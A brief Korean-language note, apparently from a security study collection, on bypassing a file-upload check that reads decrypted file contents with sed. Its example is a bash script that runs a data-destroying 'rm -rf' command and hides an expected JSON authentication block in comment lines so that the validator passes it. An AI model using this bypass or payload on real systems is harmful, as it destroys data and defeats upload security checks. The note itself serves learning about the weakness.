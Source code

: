 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능
#!/bin/bash  
rm -rf /important/data  
#{  
#"key": "authentication code"  
#}  
